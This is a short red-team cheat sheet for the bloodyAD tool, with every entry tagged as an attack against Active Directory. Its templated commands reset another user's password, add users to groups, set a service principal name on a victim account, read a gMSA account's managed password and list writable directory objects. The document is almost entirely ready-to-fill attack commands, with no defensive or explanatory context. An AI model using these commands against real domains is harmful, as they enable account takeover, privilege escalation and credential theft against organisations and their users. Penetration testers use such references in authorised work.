 # bloodyAD

% adcs, certificate, pki, windows, Active directory, template, shadow credential, gmsa, acls


## bloodyAD - set user password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> set password <target-user> <new-password>
```

## bloodyAD - add group member
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> add groupMember <target-group> <target-user>
```

## bloodyAD - set user spn
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> set object <victim> serviceprincipalname -v '<service>/<spn>'[]
```

## bloodyAD - read gmsa password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> get object <victim> --attr msDS-ManagedPassword
```

## bloodyAD - get writable
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> get writable
```

